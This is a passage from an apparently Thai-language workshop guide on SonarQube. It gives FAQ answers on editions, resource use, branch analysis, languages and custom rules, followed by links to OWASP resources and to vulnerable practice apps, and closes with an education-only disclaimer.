**A:** Community Edition เป็นเวอร์ชันฟรีที่มีฟีเจอร์พื้นฐาน ขณะที่เวอร์ชันที่สูงกว่าจะมีฟีเจอร์เพิ่มเติม เช่น Branch Analysis, Portfolio Management, SAML Authentication และ Developer Edition เริ่มต้นที่ราคาประมาณ $120 ต่อปีต่อผู้ใช้งาน

### Q: SonarQube ใช้ทรัพยากรเครื่องมากเกินไป จะทำอย่างไร?
**A:** ปรับแต่งการตั้งค่าของ Java VM ใน `sonar.sh` หรือใช้ SonarCloud ซึ่งเป็นบริการแบบ SaaS ที่ไม่ต้องติดตั้งเอง

### Q: มีวิธีแยกการสแกนตาม branch หรือไม่?
**A:** ฟีเจอร์ Branch Analysis มีให้ใช้ในเวอร์ชัน Developer Edition ขึ้นไป สำหรับ Community Edition ต้องใช้วิธีสร้างโปรเจคแยกตาม branch

### Q: SonarQube รองรับภาษาใดบ้าง?
**A:** SonarQube รองรับ 30+ ภาษา รวมถึง Java, JavaScript, TypeScript, Python, C#, PHP, Go, Swift และอื่นๆ รายละเอียดเพิ่มเติมดูได้ที่ [Supported Languages](https://docs.sonarqube.org/latest/analysis/languages/overview/)

### Q: จะกำหนด custom rules ได้อย่างไร?
**A:** สามารถสร้าง custom rules ได้ผ่านทาง Quality Profiles โดยการเขียน custom plugins หรือใช้ XPath rules สำหรับบางภาษา

## 📚 แหล่งข้อมูลเพิ่มเติม

### เอกสารอ้างอิง
- [SonarQube Documentation](https://docs.sonarqube.org/latest/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [OWASP ASVS (Application Security Verification Standard)](https://owasp.org/www-project-application-security-verification-standard/)

### การฝึกอบรมและหลักสูตร
- [SonarSource Academy](https://academy.sonarsource.com/)
- [OWASP Top 10 Training](https://owasp.org/www-project-top-ten/)
- [Pluralsight: Static Code Analysis with SonarQube](https://www.pluralsight.com/)

### บล็อกและบทความ
- [SonarSource Blog](https://blog.sonarsource.com/)
- [OWASP AppSec Blog](https://owasp.org/blog/)
- [Snyk Blog on Code Security](https://snyk.io/blog/)

## 🚀 ตัวอย่างโค้ดสำหรับฝึกปฏิบัติ

เราได้เตรียมตัวอย่างโค้ดที่มีปัญหาด้านความปลอดภัยตาม OWASP Top 10 ไว้ให้ฝึกปฏิบัติ:

- [NodeJS Vulnerable App](/examples/nodejs-app)
- [Java Spring Boot Vulnerable App](/examples/java-app)
- [Python Django Vulnerable App](/examples/python-app)

แต่ละตัวอย่างมีคำแนะนำวิธีการติดตั้ง การทดสอบช่องโหว่ และวิธีการแก้ไข

## 📞 การสนับสนุน

หากคุณมีคำถามหรือต้องการความช่วยเหลือเกี่ยวกับเนื้อหานี้ สามารถติดต่อผ่านช่องทางต่อไปนี้:

- [GitHub Issues](https://github.com/your-organization/workshop-devops/issues)
- [Discussion Forum](https://github.com/your-organization/workshop-devops/discussions)
- [Email Support](mailto:support@example.com)

---

🔐 **คำเตือน:** เนื้อหาและตัวอย่างโค้ดในคู่มือนี้มีวัตถุประสงค์เพื่อการศึกษาเท่านั้น ไม่ควรนำไปทดสอบกับระบบที่ไม่ได้รับอนุญาต
````
